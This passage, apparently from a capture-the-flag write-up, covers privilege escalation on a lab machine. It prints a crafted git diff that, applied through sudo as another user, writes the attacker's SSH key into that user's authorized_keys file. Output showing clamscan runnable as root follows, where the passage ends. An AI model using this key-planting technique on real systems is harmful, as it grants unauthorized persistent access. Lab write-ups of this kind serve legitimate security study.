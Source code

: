 Then, we can redirect the above to another file like `/tmp/diff`. Afterwards, we need to change the target file (the one below) to `sbrown/.ssh/authorized_keys` in order to write the key within it.

Here's the final `diff` file I used:

{% code overflow="wrap" %}
```
cbrown@snoopy:/home$ cat /tmp/diff
diff --git a/cbrown/.bash_history b/cbrown/.bash_history
deleted file mode 120000
index dc1dc0c..0000000
--- a/cbrown/.bash_history
+++ /dev/null
@@ -1 +0,0 @@
-/dev/null
\ No newline at end of file
diff --git a/sbrown/.ssh/authorized_keys b/sbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..8e881d1
--- /dev/null
+++ b/cbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa KEY kali@kali
```
{% endcode %}

Afterwards, just run the `sudo` command on the `/tmp/diff` file. This would put our public key within the `sbrown` directory since we are running the command as `sbrown`. Then, we can `ssh` in.

<figure><img src="../../.gitbook/assets/image (2127).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

### Sudo Clamscan -> Root&#x20;

When checking `sudo` privileges again, I found that we can run `clamscan` as `root`.

```
sbrown@snoopy:~$ sudo -l
Matching Defaults entries for sbrown on snoopy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User sbrown may run the following commands on snoopy:
    (root) NOPASSWD: /usr/local/bin/clamscan
```
